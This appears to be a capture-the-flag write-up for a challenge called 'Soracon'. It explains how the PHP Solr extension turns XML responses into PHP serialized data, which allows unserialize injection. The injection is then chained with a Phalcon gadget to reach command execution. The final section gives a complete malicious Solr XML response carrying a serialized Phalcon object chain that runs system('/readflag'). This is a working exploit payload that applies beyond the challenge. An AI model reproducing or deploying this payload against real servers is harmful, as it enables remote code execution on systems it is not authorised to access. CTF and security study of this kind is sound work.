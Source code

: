 # Soracon

My friend called me to mine a new 0day of Apache Solr, so I found this!

## Writeup

### Solr

We can control the Solr response now. If we read the solr extensions's source code, we will know it will convert XML response to PHP serialization format (https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/php_solr_response.c#L239) then use `php_var_unserialize` to make `SolrObject`. 

And let us read the convert helper, the following code will convert `<int>123456</int>` to `i:12345` ( https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/solr_functions_helpers.c#L1142 )

```c
/* {{{ static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode) */
static void solr_encode_int(const xmlNode *node, solr_string_t *buffer, solr_encoding_type_t enc_type, long int array_index, long int parse_mode)
{
	solr_char_t *data_value = (solr_char_t *) solr_xml_get_node_contents(node);
	size_t data_value_len   = solr_strlen(data_value);
	solr_write_variable_opener(node, buffer, enc_type, array_index);
	solr_string_append_const(buffer, "i:");
	solr_string_appends(buffer, data_value, data_value_len);
	solr_string_appendc(buffer, ';');
}
/* }}} */
```

So we can do... UNSERIALIZE INJECTION! (wtf)

This is an example Solr reponse:
```xml
<?xml version="1.0" encoding="UTF-8"?>'
<response>
<result name="response" numFound="1" start="0" numFoundExact="true">
  <doc name="fuck">
    <int name="a">123456</int>
    <int name="b">12345678</int>
  </doc>
</result>
</response>
```

If we add a printf before https://github.com/php/pecl-search_engine-solr/blob/2.5.1/src/php7/php_solr_response.c#L290 , we will get the response like this:

```
O:10:"SolrObject":1:{s:8:"response";O:10:"SolrObject":3:{s:8:"numFound";i:1;s:5:"start";i:0;s:4:"docs";a:1:{i:0;O:10:"SolrObject":2:{s:1:"a";i:123456;s:1:"b";i:12345678;}}}}
```

You can't use `123456;i:0;i:1` like SQL injection to add a new element into `SolrObject`(Check [var_unserializer.re](https://github.com/php/php-src/blob/php-7.4.20/ext/standard/var_unserializer.re) for detail), but you can manually close all brackets. PHP will stop reading all the remaining characters if unserialization is done(brackets are all closed).

```php
php > print_r(unserialize('a:2:{i:0;i:123456;i:1;i:12345678;}'));
Array
(
    [0] => 123456
    [1] => 12345678
)
php > print_r(unserialize('a:2:{i:0;i:123456;i:1;i:8888;}aabccdefg'));
Array
(
    [0] => 123456
    [1] => 8888
)
php > print_r(unserialize('i:12345678;aaadasjkda'));
12345678
```

Now we can unserialize all we needed.

### Phalcon unserialize gadget chain

I know somebody implemented PHP unserialize gadget auto mining tool, how to let it invalid? The simplest way is to find a gadget which not written in PHP. (wtf)

Phalcon is the best choice for this. It's written in Zephir and will be compiled to C. This chain is easy to find and read, so just see `chain.php`.


## Solution
Let your server respond this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<response>
<result name="response" numFound="1" start="0" numFoundExact="true">
  <doc name="fuck">
    <int name="a">12345678;i:0;O:29:"Phalcon\Logger\Adapter\Stream":8:{s:16:"defaultFormatter";s:4:"Json";s:9:"formatter";N;s:13:"inTransaction";b:1;s:5:"queue";a:1:{i:0;O:10:"Phalcon\Di":3:{s:8:"services";a:1:{s:7:"context";O:18:"Phalcon\Di\Service":4:{s:10:"definition";a:3:{s:9:"className";s:18:"Phalcon\Validation";s:9:"arguments";a:0:{}s:5:"calls";a:2:{i:0;a:2:{s:6:"method";s:3:"add";s:9:"arguments";a:2:{i:0;a:2:{s:4:"type";s:9:"parameter";s:5:"value";a:1:{i:0;s:0:"";}}i:1;a:2:{s:4:"type";s:9:"parameter";s:5:"value";O:37:"Phalcon\Validation\Validator\Callback":3:{s:9:"templates";a:0:{}s:7:"options";a:2:{s:7:"message";s:0:"";s:8:"callback";s:6:"system";}s:8:"template";s:0:"";}}}}i:1;a:2:{s:6:"method";s:8:"validate";s:9:"arguments";a:1:{i:0;a:2:{s:4:"type";s:9:"parameter";s:5:"value";O:21:"Phalcon\Acl\Component":2:{s:11:"description";s:0:"";s:4:"name";s:9:"/readflag";}}}}}}s:8:"resolved";b:0;s:6:"shared";b:0;s:14:"sharedInstance";N;}}s:15:"sharedInstances";a:0:{}s:13:"eventsManager";N;}}s:7:"handler";N;s:4:"mode";s:2:"ab";s:4:"name";s:10:"/tmp/1.txt";s:7:"options";N;}}}}}}</int>
    <int name="b">0</int>
  </doc>
  <fuck></fuck>
</result>
</response>
```